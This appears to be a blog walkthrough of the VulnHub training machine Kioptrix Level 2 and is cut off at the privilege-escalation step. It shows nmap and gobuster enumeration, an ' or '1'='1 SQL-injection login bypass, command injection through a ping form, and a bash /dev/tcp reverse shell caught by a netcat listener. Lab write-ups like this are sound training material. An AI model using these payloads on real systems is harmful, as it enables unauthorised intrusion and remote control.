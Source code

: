 ```yaml
---
layout: post
title: Kioptrix Level 2
---
```

[Kioptrix Level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)

## Find IP of box
Our IP: x.x.x.49

`nmap -T5 <LHOST>/24`

Kioptrix is running on: x.x.x.4  

## Init NMap Scan

`nmap -sC -sV -oA nmap x.x.x.4`

 - Default Scripts
 - Service Detection
 - Output all formats
 
 ![Initial NMap Scan](/images/KioptrixL2/NMap1.JPG)

We have 6 ports open: 22 (ssh), 80 (http), 111 (rpcbind), 443 (ssl/https), 631 (ipp), 3306 (mysql)

I'll start with the HTTP port in which we are greeted with an Administration login page.

## HTTP - Port 80
### Gobuster

`gobuster dir -u http://x.x.x.4 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster.txt -x php,html,txt,xml`

Nothing useful

Same with Dirbuster for recurisve search

### SQL Injection

' or '1'='1

Enter in both Username and Password and we get a login

We see an option to ping a machine on the network which suggests we may have RCE

### RCE Check

I entered the machine IP into the box and it opens a new tab with the ping results. I'm assuming that the command it's running is simply: ping <IP> where the IP is the user entered text.
 
 We know the machine is running on linux so I appened pipe id ( | id) which proves successful.
 
 !(Ping RCE check)[images/KioptrixL2/PingID.JPG]
 
 ### NetCat
 
 Start a netcat listener on local machine
 
 `nc -lvnp 4444`
 
 ### RCE Reverse Shell
 
 Grab a reverse shell from (Pentest Monkey's Cheat Sheet)[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet] 
 
 `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
 
 I entered `x.x.x.4 | bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1` into the website and we get reverse shell on our local machine as user apache
 
 Spawn a TTY shell using python -c 'import pty; pty.spawn("/bin/sh")' from (Netsec TTY Cheat Sheet)[https://netsec.ws/?p=337]
 
 ### Privilege Escalation
 
I started 
